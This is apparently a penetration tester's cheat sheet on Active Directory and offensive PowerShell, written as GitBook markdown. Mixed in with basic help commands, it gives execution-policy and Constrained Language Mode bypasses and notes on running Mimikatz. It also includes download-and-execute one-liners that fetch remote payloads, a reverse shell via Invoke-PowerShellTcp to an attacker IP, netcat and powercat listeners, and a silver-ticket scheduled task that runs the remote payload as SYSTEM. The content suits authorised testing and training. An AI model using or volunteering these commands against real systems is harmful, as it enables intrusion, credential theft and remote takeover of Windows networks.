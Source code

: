 # AD - Basics & PowerShell Basics

## AD Basics

* Components of AD
  * Shema - Defines objects and their attributes
  * Query and index mechanisem
  * Global catalog - Information about every object
  * Replication service - Distributes information accross domain controllers
* A forest - which is a security boundary - may contain multiple domains and each domain may contain multiple Ous

### How to interact with Active Directory

* \[ADSI]
* .NET Classes (System.DirectoryServices.ActiveDirectoryy)
* Native Executables (like net….)
* PowerShell (.NET classes and WMI)

## Powershell Basics

With PowerShell Scripts you can use cmdlets, native commands, functions, .net, dlls, Windows API

### Help Command

```powershell
Get-Help * - Lists everything abtout the help topic
Get-Help process (lists everything which contains the word process)
Update-Help - Update the healp system (v3+)
Get-help cmdlet_name -Full - List full help about a topic
Get-Help cmdlet_name -Examples
Get-command -CommandType cmdlet - List all cmdlets
```

**Use this parameter to not print errors powershell**\
****-ErrorAction SilentlyContinue

**Rename powershell windows**\
****$host.ui.RawUI.WindowTitle = "name"&#x20;

### Execute

It is NOT a security boundary

<pre class="language-powershell"><code class="lang-powershell">Powershell -exectionpolicy bypass
<strong>powershell -ep bypass
</strong>Powershell -c &#x3C;cmd>
Powersehll -encodedcommand $env:PSExecutionPolicyPreference="bypass"
</code></pre>

### Language Mode & AppLocker

**Display current language mode**

```powershell
$executioncontext.sessionstate.languagemode
```

Constrained Language mode is the restriction of types which are not safe/disallowed in constrained language mode. E.g. .Net Classes,

Only Built-In Commandlets can be used and types/classes etc. are restricted\
Can be configured via AppLoker or Windows Defender Application Mode in Enforcement mode.

Constrained language mode is only for Powershellv5.1, v7 - if attacker can run Powershellv2 no language mode enforcement is possible.

**Set language mode - usually doesnt work**

```powershell
$ExecutionContext.SessionState.LanguageMode = 'fulllanguage'
[Environment]::SetEnvironmentVariable(‘__PSLockdownPolicy‘, ‘4’, ‘Machine‘)
```

**Check AppLocker Policy - maybe some excludes form constrained language**

```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections 

Default rule excludes C:\Windows\System32\
```

**Invoke-mimikatz when Constrained Language mode is in place**

So, we must modify Invoke-Mimikatz.ps1 to include the function call in the script itself and transfer the modified script (.\Invoke-MimikatzEx.ps1) to the target server.

**Check if you can run PowershellV2 which doesnt support CLM**

```
powershell -version 2
-or-
C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe
$ExecutionContext.SessionState.LanguageMode
```

### Execute .PS1 File / PowerView

{% code overflow="wrap" %}
```powershell
. .\PowerView.ps1
iex(iwr https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1 -UseBasicParsing)
```
{% endcode %}

### Execute AD Module

Download [https://github.com/samratashok/ADModule](https://github.com/samratashok/ADModule)

<pre class="language-powershell"><code class="lang-powershell"><strong>cd ADModule-master
</strong><strong>Import-Module .\Microsoft.ActiveDirectory.Management.dll -Verbose
</strong>Import-Module .\ActiveDirectory\ActiveDirectory.psd1
</code></pre>

{% hint style="info" %}
Most of the AD Modules have the -Filter -Properties and -Identity options!

Get-AD-User -Filter \* -Properties \*\
Get-AD-User -Identity username1 -Properties \*
{% endhint %}

{% code overflow="wrap" %}
```powershell
iex (new-Object Net.WebClient).DownloadString('
https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

To be able to list all the cmdlets in the module, import the module as well. Remember to import the DLL first.
Import-Module C:\ADModule\Microsoft.ActiveDirectory.Management.dll -Verbose
Import-Module C:\AD\Tools\ADModule\ActiveDirectory\ActiveDirectory.psd1
Get-Command -Module ActiveDirectory
```
{% endcode %}

### Import Modules / Execute

**Import a module/file**

```powershell
Import-Module <modulepath>
```

**List all commands of a module**

```powershell
Get-Command -Module <modulename>
```

\
**Display Loaded functions**\
ls function:

### Download and execute PowerShell Scripts

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">powershell iex (iwr -UseBasicParsing http://ip/Invoke-PowerShellTcp.ps1); Power -Reverse -IPAddress ip -Port 443 
<strong>
</strong><strong>iex (New-Object Net.WebClient).DownloadString('https://webserver/pay.ps1') - Invoke Expression (iex alias)
</strong></code></pre>

Download and save PowerShell Script

{% code overflow="wrap" %}
```powershell
iwr http://172.16.x.x/Invoke-MimikatzEx.ps1 -OutFile C:\Windows\Tasks\Invoke-MimikatzEx.ps1
```
{% endcode %}

#### &#x20;**Use a COM Object**

{% code overflow="wrap" %}
```powershell
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('https://webserver/pay.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
```
{% endcode %}

#### **PSv3 or newer**

{% code overflow="wrap" %}
```powershell
i Iex (iwr '
http://websever/ps.ps1') -iwr is alias for invoke-web request
 $h=New-Object -ComObject
Msxml2.xmlhttp;$h.open('GET','http://webserver/ps.ps1',$fasle);$h.send();iex $h.responseText
$wr = [System.NET.WebRequest]::Create("http://werbser.ps.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```
{% endcode %}

**Invoke\_PowerShellTCP.ps1**

Add line at the end of the script:\
Invoke-PowershellTcp -Reverse -IPAddress attackersIP -Port port

## Start Netcat Listener (for e.g. Invoke\_powerShellTcp.ps1)

.\netcat-win32-1.12\nc64.exe -lvp 443

## Other

**Display/delete Kerberos Tickets**\
****klist\
klist purge

**List tasks**\
schtasks /S hostname.dom.local

**Schedudle an execute a task with silver ticket of "HOST" Service**&#x20;

{% code overflow="wrap" %}
```powershell
schtasks /create /S hostname.dom.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (new-object net.webclient).DownloadString(''http://ip/Invoke_powerShellTcp.ps1''')'" 
schtasks /Run /S hostname.dom.local /TN "STCheck"
```
{% endcode %}

**Start listener**\
****. .\powercat.ps1\
powercat -l -v -p 443 -t 1000\
&#x20; When connected press a few times enter

**HFS Webserver tool**\
****Drag & drop files in window to host it

**List tasks**\
tasklist /v

**Display Environment variable in Powershell**

```
Get-ChildItem -Path Env:
```





